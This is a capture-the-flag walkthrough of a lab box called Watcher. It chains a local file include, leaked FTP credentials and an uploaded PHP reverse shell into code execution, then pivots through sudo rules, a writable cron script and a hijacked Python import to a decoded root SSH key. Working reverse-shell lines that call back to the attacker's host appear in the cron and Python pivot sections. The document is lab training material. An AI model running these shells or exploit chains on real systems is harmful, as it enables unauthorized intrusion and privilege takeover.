




# Watcher

**Room:** [Watcher](https://tryhackme.com/room/watcher) · **Difficulty:** Medium · **OS:** Linux

A blog site's `post.php?post=` parameter is a local file include. It's used first to read a file the developer explicitly named "do not read," which hands over FTP credentials; those credentials let a PHP reverse shell be uploaded to a directory the LFI can also reach, turning the LFI into RCE. From `www-data`, the box is a chain of lateral pivots — a `sudo` rule to `toby`, a writable cron script to `mat`, a `sudo` script to `will`, and finally a base64-encoded root SSH key — each one gated behind its own flag.

---

## 1. Reconnaissance

### Port scan

```bash
nmap -p- --min-rate 1000 -T4 -sV -Pn -oA nmap_full_scan 10.48.148.109
```

```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

FTP, SSH and HTTP — FTP is worth keeping in mind since the web app may end up disclosing credentials for it.

### Content discovery

```bash
ffuf -u "http://10.48.148.109/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -r --recursion
```

```text
css                     [Status: 200]
images                  [Status: 200]
robots.txt              [Status: 200]
```

---

## 2. Finding the LFI and leaking FTP creds

`robots.txt` names files the site owner explicitly didn't want crawled — which is often a map straight to what matters:



```text
Allow: /flag_1.txt
Allow: /secret_file_do_not_read.txt
```

```bash
curl http://10.48.148.109/flag_1.txt
```
```text
FLAG{robots_dot_text_what_is_next}
```

The site's blog posts are rendered through `post.php?post=<name>.php`:



That parameter takes a bare filename with no validation visible, so an absolute path is tried directly against the second `robots.txt` entry — and it works, confirming a **local file include**:

```text
http://10.48.148.109/post.php?post=/var/www/html/secret_file_do_not_read.txt
```



```text
Hi Mat, The credentials for the FTP server are below. I've set the files to be saved
to /home/ftpuser/ftp/files.
ftpuser:givemefiles777
```

---

## 3. Foothold — FTP upload + LFI = RCE

```bash
ftp 10.48.148.109
# ftpuser / givemefiles777
ls
```

```text
drwxr-xr-x  2 1001 1001  files
-rw-r--r--  1 0    0     flag_2.txt
```

```bash
get flag_2.txt
cat flag_2.txt
```

```text
FLAG{ftp_you_and_me}
```

Since the LFI includes **and executes** any PHP it's pointed at, uploading a PHP reverse shell into the FTP-writable `files/` directory and then including it through `post.php` is enough to run it on the server:

```bash
ftp> put reverse.php
```

```text
5497 bytes sent in 00:00 (335.48 KiB/s)
```

With a listener running, the shell is triggered by requesting:

```text
http://10.48.148.109/post.php?post=/home/ftpuser/ftp/files/reverse.php
```



(The first attempt fails because the listener isn't up yet — a second request, after starting `nc`, succeeds.)

```bash
nc -lvnp 4444
```

```text
connect to [192.168.158.240] from (UNKNOWN) [10.48.183.33] 35608
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Back in the web root as `www-data`, a hidden directory yields the next flag:

```bash
cd /var/www/html
ls
cd more_secrets_a9f10a
cat flag_3.txt
```

```text
FLAG{lfi_what_a_guy}
```

---

## 4. Pivot 1 — `www-data` → `toby` via `sudo`

```bash
sudo -l
```

```text
User www-data may run the following commands on ip-10-48-183-33:
    (toby) NOPASSWD: ALL
```

```bash
sudo -u toby /bin/bash
whoami
```

```text
toby
```

```bash
cat flag_4.txt
```

```text
FLAG{chad_lifestyle}
```

---

## 5. Pivot 2 — `toby` → `mat` via a cron job

`toby`'s home directory has a `jobs/` folder containing `cow.sh`, writable by `toby` and (per the timing in later output) run periodically as `mat`:

```bash
echo "bash -i >& /dev/tcp/192.168.158.240/4445 0>&1" >> /home/toby/jobs/cow.sh
cat cow.sh
```

```bash
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
bash -i >& /dev/tcp/192.168.158.240/4445 0>&1
```

```bash
nc -lvnp 4445
```

```text
connect to [192.168.158.240] from (UNKNOWN) [10.48.183.33] 54894
mat@ip-10-48-183-33:~$ cat flag_5.txt
FLAG{live_by_the_cow_die_by_the_cow}
```

---

## 6. Pivot 3 — `mat` → `will` via a `sudo` script

`mat` has a `scripts/` directory and a `sudo` rule to run a specific Python script as `will`. That script imports a module (`cmd.py`) from the same directory by its function name, so planting a file called `cmd.py` with a reverse-shell `get_command` function hijacks the import:

```bash
echo 'import socket,subprocess,os
def get_command(num):
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("192.168.158.240",4444))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    subprocess.call(["/bin/sh","-i"])' > /home/mat/scripts/cmd.py
```

```bash
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1
```

```text
will@ip-10-48-183-33:~$ cat flag_6.txt
FLAG{but_i_thought_my_script_was_secure}
```

---

## 7. Privilege escalation — backed-up root SSH key

```bash
cd /opt
ls
cd backups
ls
```

```text
key.b64
```

A base64-encoded private key sitting in a backups directory is exactly what it looks like — it's decoded and used to SSH in directly as root:

```bash
cat key.b64 | base64 -d > /tmp/id_rsa
chmod 600 /tmp/id_rsa
ssh -i /tmp/id_rsa root@10.48.183.33
```

### Root flag

```bash
cat flag_7.txt
```

```text
FLAG{who_watches_the_watchers}
```
